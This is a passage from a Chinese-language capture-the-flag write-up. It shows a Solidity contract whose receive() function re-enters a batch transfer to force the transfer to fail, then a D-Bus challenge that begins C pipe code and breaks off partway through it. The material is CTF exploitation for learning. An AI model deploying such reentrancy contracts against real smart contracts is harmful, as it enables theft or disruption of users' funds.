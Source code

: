 ```
之后发现成功的获取到了flag

仔细阅读源码后发现是external payable的原因

### 转账又失败

仔细阅读题目源码后发现 需要进行重入攻击来完成让转账失败

这里给出我的合约

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BatchTransfer {
    mapping(address => uint256) public pendingWithdrawals;

    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        (bool success,) = recipients[0].call{value: amounts[0]}("");
        require(success, "Transfer failed");
    }

    receive() external payable {
        address payable[] memory recipients = new address payable[](1);
        recipients[0] = payable(this);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = msg.value;
        this.batchTransfer{value: msg.value}(recipients, amounts);
    }
}
```



## 不太分布式的软总线

Flag1没什么好说的 就直接对着总线发送 `Please give me flag1`即可

不过要注意需要添加`--system`参数以发送到系统上

Flag2需要先创建管道然后传输dbus指令

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>


int main(int argc, char* argv[])
{
    int pipedes1[2];
    int returnstatus1 = pipe(pipedes1);
    char pipe1writemessage[30] = "Please give me flag2\n";
    char pipestr[42];
    sprintf(pipestr, "%d", pipedes1[0]);

